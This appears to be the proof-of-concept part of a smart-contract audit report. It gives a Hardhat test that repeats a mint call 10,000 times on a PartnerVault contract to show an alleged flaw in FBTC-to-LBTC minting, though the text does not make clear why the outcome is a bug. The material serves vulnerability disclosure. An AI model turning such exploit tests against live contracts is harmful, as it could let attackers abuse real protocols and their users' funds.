## Proof of concept

Steps to reproduce the bug:

Step 1: Attacker repeats 10\_000 times the call mint(291) in PartnerVault

User spent 10\_000 \* 291 FBTC = 2\_910\_000 FBTC User received 2\_910\_000 LBTC

The test code to show this bug:

```typescript
  it('should be able to mint LBTC on depositing FBTC', async function () {
            const mintTotal = 2910000;
            const mintAmount = 291;
            await fbtc.mint(signer1.address, mintTotal);
            await fbtc
                .connect(signer1)
                [
                    'approve(address,uint256)'
                ](await partnerVault.getAddress(), mintTotal);
            this.timeout(); 
            // loop to mint 10_000 times 
            for (let i = 0; i < 10000; i++) {
                expect(
                    await partnerVault.connect(signer1)['mint(uint256)'](mintAmount)
                )
                    .to.emit(fbtc, 'Transfer')
                    .withArgs(
                        signer1.address,
                        await partnerVault.getAddress(),
                        mintAmount
                    )
                    .to.emit(fbtc, 'Transfer')
                    .withArgs(
                        await partnerVault.getAddress(),
                        await lockedFbtc.getAddress(),
                        mintAmount
                    )
                    .to.emit(lbtc, 'Transfer')
                    .withArgs(ethers.ZeroAddress, signer1.address, mintAmount);
                
            }
          
            console.log('LBTC balance of signer1 ', await lbtc.balanceOf(signer1.address));
            
        }).timeout(10000000);   
```

Just copy the test case into test suite "FBTC locking" in evm-smart-contracts\test\PartnerVault.ts

```typescript
describe('FBTC locking', function () {
```
